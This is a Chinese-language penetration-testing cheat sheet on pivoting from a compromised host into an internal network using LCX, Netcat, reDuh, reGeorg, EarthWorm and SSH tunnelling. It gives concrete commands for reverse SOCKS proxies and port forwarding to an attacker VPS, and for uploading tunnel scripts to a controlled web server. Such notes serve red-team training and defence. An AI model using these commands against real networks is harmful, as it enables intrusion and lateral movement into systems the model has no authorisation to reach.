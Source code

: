 #### 概述 (Overview)
当目标主机位于内网，无法直接从公网访问时，需要利用已控主机作为跳板，建立隧道或进行端口转发，将内网的服务端口映射到公网可访问的地址，或将攻击者的流量通过隧道代理进内网。

#### 常用工具与技术 (Common Tools & Techniques)

1.  **LCX**
    *   **简介**: 经典的端口转发工具，小巧但特征明显，易被查杀。
    *   **场景**:
        *   **内网端口转发到公网 (反向连接)**: 在内网主机 (`127.0.0.1:3389`) 执行 `lcx.exe -slave <公网VPS_IP> <VPS监听端口> 127.0.0.1 3389`，将本地 3389 转发到 VPS 的指定端口。攻击者连接 VPS 的该端口即可访问内网 3389。
        *   **本地端口监听转发 (正向连接)**: 在公网 VPS 执行 `lcx.exe -listen <VPS监听端口1> <VPS转发端口2>`，将监听端口1 的流量转发到端口2（端口2 可能连接着另一个 LCX 实例或服务）。

2.  **Netcat (nc)**
    *   **简介**: 网络工具中的“瑞士军刀”，功能强大，可用于端口扫描、监听、连接、传输文件、端口转发等。
    *   **端口转发示例 (简单管道)**: 在跳板机执行 `nc -lvp <跳板机监听端口> -c "nc <内网目标IP> <内网目标端口>"` (Linux) 或使用 `-e` 选项 (旧版 nc)。将访问跳板机监听端口的流量转发到内网目标。
    *   **注意**: 流量未加密，功能相对基础。

3.  **reDuh (HTTP/S Tunneling)**
    *   **简介**: 利用 HTTP/S 协议进行端口转发和连接管理，可以穿透只允许 HTTP/S 流量的网络环境。
    *   **流程**:
        1.  上传服务端脚本 (`reDuh.php`, `.aspx` 等) 到 Web 服务器（已控主机）。
        2.  攻击者本地运行客户端 `reDuhClient.jar` 或 `reDuhGUI.exe`。
        3.  在客户端配置连接到 Web 服务器上的脚本 URL。
        4.  通过客户端创建端口转发规则（如将本地端口映射到内网目标端口）。

4.  **reGeorg (SOCKS over HTTP/S)**
    *   **简介**: 将 SOCKS 代理流量封装在 HTTP/S 请求中，隐蔽性较好。
    *   **流程**:
        1.  上传隧道脚本 (`tunnel.php`, `.aspx`, `.jsp`) 到 Web 服务器（已控主机）。
        2.  攻击者本地运行 Python 客户端 `reGeorgSocksProxy.py`: `python reGeorgSocksProxy.py -p <本地SOCKS监听端口> -u <隧道脚本URL>`。
        3.  配置本地代理工具 (如 Proxychains, Proxifier) 使用 SOCKS 代理 `127.0.0.1:<本地SOCKS监听端口>`。
        4.  通过代理工具运行的应用程序即可访问内网。

5.  **EarthWorm (ew)**
    *   **简介**: 功能强大的网络穿透工具，支持正向/反向 SOCKS 代理、端口转发、多级级联等。跨平台。
    *   **常用模式**:
        *   **正向 SOCKS 代理**: 在内网跳板机运行 `ew -s ssocksd -l <监听端口>`，启动 SOCKS 服务。攻击者使用 SOCKS 客户端连接 `跳板机IP:<监听端口>`。
        *   **反弹 SOCKS 代理**:
            *   攻击者 VPS 执行 `ew -s rcsocks -l <VPS监听端口> -e <VPS反弹端口>` (监听来自跳板机的 SOCKS 连接请求)。
            *   内网跳板机执行 `ew -s rssocks -d <VPS_IP> -e <VPS反弹端口>` (将 SOCKS 代理功能反弹给 VPS)。
            *   攻击者使用 SOCKS 客户端连接 `VPS_IP:<VPS监听端口>`。
        *   **端口转发**: 支持 `-tran`, `-lcx_tran`, `-lcx_listen`, `-lcx_slave` 等模式。
    *   **使用**: 配合 SOCKS 客户端工具 (Sockscap64, Proxychains, Proxifier) 使用。

6.  **SSH Tunneling**
    *   **简介**: 利用 SSH 协议进行安全的端口转发和 SOCKS 代理。
    *   **本地端口转发**: `ssh -L <本地监听端口>:<内网目标IP>:<内网目标端口> user@<跳板机IP>` (将内网服务映射到本地)。
    *   **远程端口转发**: `ssh -R <跳板机监听端口>:<本地服务IP>:<本地服务端口> user@<跳板机IP>` (将本地服务映射到跳板机)。
    *   **动态端口转发 (SOCKS)**: `ssh -D <本地SOCKS监听端口> user@<跳板机IP>` (建立 SOCKS 代理)。

7.  **其他工具**: FRP, NPS, Venom, Iodine (DNS Tunneling) 等。